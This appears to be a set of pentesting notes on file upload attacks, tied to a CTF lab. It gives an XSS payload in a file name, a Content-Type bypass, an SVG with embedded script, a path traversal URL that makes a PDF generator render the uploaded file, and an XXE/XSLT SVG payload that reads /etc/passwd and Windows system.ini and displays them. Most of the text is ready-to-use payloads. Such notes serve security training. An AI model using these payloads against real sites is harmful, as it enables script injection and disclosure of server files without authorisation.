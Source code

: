_____

# XSS in File Name

```
filename="test<img src=x onerror=alert()>.png"
```

# Bypassing Content Types

Try deleting Content-Type
```
Content-Type: text/html
```

Add `<script>alert()</script>`

# Content/MIME Types

https://github.com/BlackFan/content-type-research/blob/master/XSS.md

# SVGs

```
Content-Type: text/svg
```

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
    
    <script>
        alert(1)
    </script>
</svg>
```

The lab allows you to upload your own profile picture, create an svg with the below content:

Make a note of the uploaded file, the URL will be something like /uploads/e943fc9a281b6834f6a6cbd98a0f3af5.svg

The View PDF feature makes a pdf from the html version of the order can be traversed to the image upload e.g:
https://xxxxxxxx.eu1.ctfio.com/pdf.php?order_id=.../uploads/e943fc9a281b6834f6a6cbd98a0f3af5.svg

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="#"?>
<!DOCTYPE div [
    <!ENTITY passwd_p SYSTEM "file:///etc/passwd">
    <!ENTITY passwd_c SYSTEM "file://c:/etc/passwd">
    <!ENTITY sysini_p SYSTEM "file:///c:/windows/system.ini">
    <!ENTITY sysini_c SYSTEM "file://c:/windows/system.ini">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
        <xsl:copy-of select="document('')"/>
        <body xmlns="http://www.w3.org/1999/xhtml">
            <div style="display:none">
                <p class="&passwd_p;">&passwd_c;</p>
                <p class="&sysini_p;">&sysini_c;</p>
            </div>
            <div style="width:40rem" id="r" />
            <script>
                document.querySelector('#r').innerHTML = `
                remote web url: &lt;textarea style="width:100%;height:1rem">${location.href}&lt;/textarea>&lt;br/>&lt;br/>`;
                document.querySelectorAll('p').forEach(p => {
                //You can send p.innerHTML by POST.
                document.querySelector('#r').innerHTML += `
                local file path: &lt;textarea style="width:100%;height:1rem">${p.className}&lt;/textarea>&lt;br/>
                local file content: &lt;textarea style="width:100%;height:6rem">${p.innerHTML}&lt;/textarea>&lt;br/>`;
                });
            </script>
        </body>
    </xsl:template>
</xsl:stylesheet>
```

